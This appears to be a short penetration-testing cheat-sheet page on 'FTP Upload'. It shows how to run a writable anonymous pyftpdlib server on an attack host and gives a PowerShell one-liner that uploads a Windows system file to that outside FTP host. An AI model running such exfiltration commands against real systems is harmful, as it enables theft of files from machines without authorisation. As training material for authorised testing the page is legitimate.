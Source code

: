 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# FTP Upload

## Python FTP Server

Before starting an FTP Server using the Python module pyftpdlib, specify the option **--write** to allow clients to upload files to our attack host.

```shell
clue@machine[/]$ sudo python3 -m pyftpdlib --port 21 --write

/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2022-05-18 10:33:31] concurrency model: async
[I 2022-05-18 10:33:31] masquerade (NAT) address: None
[I 2022-05-18 10:33:31] passive ports: None
[I 2022-05-18 10:33:31] >>> starting FTP server on 0.0.0.0:21, pid=5155 <<<
```

## PowerShell Upload File

```powershell
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
